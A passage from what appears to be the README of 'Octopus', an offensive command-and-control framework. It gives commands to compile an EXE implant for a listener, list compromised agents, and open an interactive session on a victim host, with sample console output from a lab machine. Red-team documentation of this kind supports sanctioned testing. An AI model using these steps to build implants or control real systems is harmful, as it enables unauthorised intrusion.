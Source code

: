 Octopus >>
```
Please note that you can edit the `/hta` URL using `profile.py`

**Octopus EXE agent**

To generate an EXE agent for listener `operation1` we can use the following command:

`generate_unmanaged_exe operation1 /opt/Octopus/file.exe`

and we will get the following result:

```
Octopus >>generate_unmanaged_exe darkside_operation2 /opt/Octopus/file.exe
[+] file compiled successfully !
[+] binary file saved to /opt/Octopus/file.exe
Octopus >>
```

> Please note that you have to install mono-csc to compile the C# source.

### Interacting with agents

First of all you can list all connected agents using the `list` command to get the following results:
```
Octopus >>list


  Session  IP            Hostname       PID  Username       Domain        Last ping                 OS
---------  ------------  -----------  -----  -------------  ------------  ------------------------  --------------------------------
        1  192.168.1.43  HR-PC-TYRMJ  10056  hr-pc\labuser  darkside.com  Tue Sep  3 10:22:07 2019  Microsoft Windows 10 Pro(64-bit)


Octopus >>
```

And then we can use the `interact` command to interact with the host as follows:

```
Octopus >>list


  Session  IP            Hostname       PID  Username       Domain        Last ping                 OS
---------  ------------  -----------  -----  -------------  ------------  ------------------------  --------------------------------
        1  192.168.1.43  HR-PC-TYRMJ  10056  hr-pc\labuser  darkside.com  Tue Sep  3 10:22:07 2019  Microsoft Windows 10 Pro(64-bit)


Octopus >>interact 1
(HR-PC-TYRMJ) >>
```

You can list all the available commands using the `help` command like the following:

```
Octopus >>list
